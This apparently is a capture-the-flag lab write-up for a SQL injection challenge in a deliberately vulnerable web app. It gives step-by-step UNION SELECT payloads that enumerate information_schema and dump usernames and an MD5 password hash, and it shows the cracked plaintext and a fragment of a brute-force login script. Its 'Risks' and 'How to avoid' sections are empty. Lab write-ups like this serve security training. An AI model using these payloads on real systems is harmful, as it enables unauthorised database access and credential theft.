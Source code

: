 a01 + a05

How to find the flag:
* Display all the tables of the databases with : 105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns

* Discover a table named "db_default" which contains three columns : id, username, password

* Try to view its content with the following SQL command "105 OR 1=1 UNION SELECT username, 1 FROM db_default".
-> It will return this error message : Table 'Member_Sql_Injection.db_default' doesn't exist.
-> We understand that it looks for the content of db_default in the wrong database.
-> We now need to find in which database db_default is stored

* Use this command to show all the tables and their databases : 105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables.
-> We now know that "db_default" is part of the "Member_Brute_Force" database

* List all the usernames of db_default : 105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default
-> We find two candidates : admin and root

* List all the password of db_default : 105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default
-> We find hashed data for one specific password : 3bf1114a986ba87ed28fc1b5884fc2f8
-> We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. There's 32 characters so it is probably hashed in MD5.
-> It is ! The password is "shadow"

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word "flag" is present in the response of the reconstructed URL.

```full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"```

* We can now go to the Signin page and log in with :
Username : admin
Password : shadow

Risks:


How to avoid:


Sources:
https://owasp.org/Top10/fr/A03_2021-Injection/
https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
https://www.sqlinjection.net/table-names/
https://www.sqlinjection.net/column-names/
https://www.acunetix.com/websitesecurity/sql-injection/